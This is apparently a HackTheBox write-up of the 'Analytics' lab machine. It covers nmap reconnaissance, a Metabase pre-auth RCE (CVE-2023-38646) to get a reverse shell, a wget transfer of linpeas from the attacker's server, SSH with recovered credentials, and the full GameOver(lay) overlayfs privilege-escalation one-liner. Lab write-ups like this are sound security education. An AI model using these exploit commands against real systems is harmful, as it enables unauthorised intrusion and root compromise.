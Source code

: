 ```yaml
---
title: Analytics - HTB Writeup
date: 2024-03-022 10:03
categories: [ctf, linux, easy]
tags: [htb, linux, ctf, easy, analytics]    # TAG names should be lowercase
---
```



# Machine Overview

**Analytics** was an easy-rated Linux machine, involving the exploitation of **CVE-2023-38646** for initial access and **CVE-2023-32629** for Privilege Escalation.

<img  alt="Pasted image 20240322120647" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/adce0329-b6e1-49bc-acd6-68eb1d6e2275">

# User
## Scanning with nmap
  
First of all, we will go with Nmap to scan the whole network and check for services running on the network. To scan the entire network and find all the open ports, I use **-p-** to scan all **65535** ports with **--min-rate 10000** to scan the network faster using **nmap**. After scanning, I retrieve a list of open ports on the network and extract only the open ports using various terminal tools like **cut**, **tr**, etc.

```bash
$ nmap -p- -Pn --min-rate 10000 10.10.11.233 -oN ini.txt && cat ini.txt | cut  -d ' ' -f1 | tr -d '/tcp' | tr '\n' ','
# Open ports
22,80
```

Now Let's run the depth scan on these specific ports using 

```bash
$ nmap -p22,80 -sC -sV -A -T4 -Pn 10.10.11.233 -oN scan.txt
```

- **-sC** is to run all the default scripts
- **-sV** for service and version detection
- **-A** to check all default things
- **-T4** for aggressive scan
- **-oN** to write the result into a specified file
- **-Pn** to Treat all hosts as online

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Information Gathering

Through Nmap, we discovered only two ports are open. On Port **22**, SSH version **8.9p1** is running on an Ubuntu system, and on port **80**, HTTP **Nginx 1.18.0** is running. Both versions of SSH and Nginx are not vulnerable, so I decided to directly visit the webpage. Let's add `analytical.htb` in our DNS file.

```bash
$ echo "10.10.11.233   analytical.htb" | sudo tee -a /etc/hosts
```

### 80 HTTP

The webpage is running the Data Analysis website, which deals in Data processing and helping customers to find recent trends and products, with different pages linked on the **navbar**.

<img  alt="Pasted image 20240321191106" src="https://github.com/iammR0OT/myaseen/assets/74102381/960bbbd9-408c-466d-a138-fccbb00742aa">

The Login button on navbar is retdirecting us to subdomain called `data.analytical.htb`. 

<img  alt="Pasted image 20240321191211" src="https://github.com/iammR0OT/myaseen/assets/74102381/38cb8468-eece-4e17-a3e9-e93bc94ee304">

Let's Add this to our local DNS file, so that we can resolve it.

```bash
$ cat /etc/hosts | grep analytical
10.10.11.233   analytical.htb data.analytical.htb
```

#### Initial Access

On `data.analytical.htb`, Metabase is running.
Metabase is **an open source business intelligence tool that lets you create charts and dashboards using data from a variety of databases and data sources**. You don't need to know SQL to create visualizations, but Metabase supports SQL for advanced customization.

<img  alt="Pasted image 20240321191714" src="https://github.com/iammR0OT/myaseen/assets/74102381/9175639c-936b-43f5-adef-4cf495ac45bf">

With a Quick google Search i was able to find a RCE exploit of metabase [CVE-2023-38646](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

<img  alt="Pasted image 20240321191841" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/07497b78-0735-4057-b5a6-e922a9c0ca36">

To make this Exploit work, we needs the **target URL**, the **setup token** and a **command** that will be executed. The setup token can be obtained through the `/api/session/properties` endpoint. Copy the value of the `setup-token` key. 

<img  alt="Pasted image 20240321192204" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/916047a0-2bd7-49ad-8567-d1572a4a2eac">

Now we have all necessary things for exploit to work. Let's Exploit it...
- URL: `http://data.analytical.htb/`
- Setup-Token: `249fa03d-fd94-4d5b-b94f-b4ebf3df681f`
- Command: rev-shell

<img  alt="Pasted image 20240322105945" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/76f340f4-d143-49a2-ab81-62d1da352916">

We got a shell within no time. Let's run Linpease to check if we able to find any useful things to elevate our privileges.
**LinPEAS** is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.
i'll be using python server to transfer linpease from my attacker machine to victime machine, for this you first need to start a python server on your local machine in a directory where linpeas is present.

```bash
$ python3 -m http.server 80
```

After that, use **wget** to transfer it to victim machine and using chmod, give it executable permissions.

```bash
$ wget <IP>/linpeas.sh
$ chmod +x linpeas.sh
```

<img  alt="Pasted image 20240322113146" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/4ef40d6e-2830-4cc7-bf34-dc2f66d2605d">

After running Linpeas, in Environments section, we were able to retrieve the password of a new user called **metalytics** 
- metalytics
- An4lytics_ds20223#

<img  alt="Pasted image 20240322114718" src="https://github.com/iammR0OT/myaseen/assets/74102381/357decf1-6a38-4d4d-a489-2e4e75c08e8e">

Let's SSH to machine using these Credentials and retrieve our user flag.

```bash
$ sshpass -p 'An4lytics_ds20223#' ssh metalytics@10.10.11.233
```

<img  alt="Pasted image 20240322114914" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/3278a655-71af-497f-b4db-7b9d1f918147">

# Privilege Escalation

Let's move toward privilege Escalation part. The very first thing i usually do is to check the kernel version running on machine, because if the version is outdated, then it will be low hanging fruit for us to gain root access on machine.
To check the kernel version, we can use multiple commands like

```bash
$ uname -a
$ cat /proc/version
$ lscpu
```

Linux **Kernel 6.2.0** is running on machine

<img  alt="Pasted image 20240322115359" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/14ed00e2-57f1-4247-924c-9a9c0613d82d">

With a quick google search i was able to find kernel exploit for privilege Escalation, [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) called **GameOver(lay)** Ubuntu Privilege Escalation
Local privilege escalation vulnerability in Ubuntu Kernels overlayfs **ovl_copy_up_meta_inode_data** skip permission checks when calling ovl_do_setxattr on Ubuntu kernels.


<img  alt="Pasted image 20240322115605" src="https://github.com/iammR0OT/myaseen/assets/74102381/4bd8a86f-6ca2-446b-8230-ee9eb244bfaa">

The payload will be.

```bash
$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

<img  alt="Pasted image 20240322120025" src="https://github.com/iammR0OT/myaseen/assets/74102381/bd0465d5-fb48-46c6-9dd9-ffd2be2be58b">


# Flags

User: edd9e7f9b0b992....7958419d05ccb 

Root: b9b4c98f4512a4....c0fad7fd933a6b

# Happy Hacking ❤
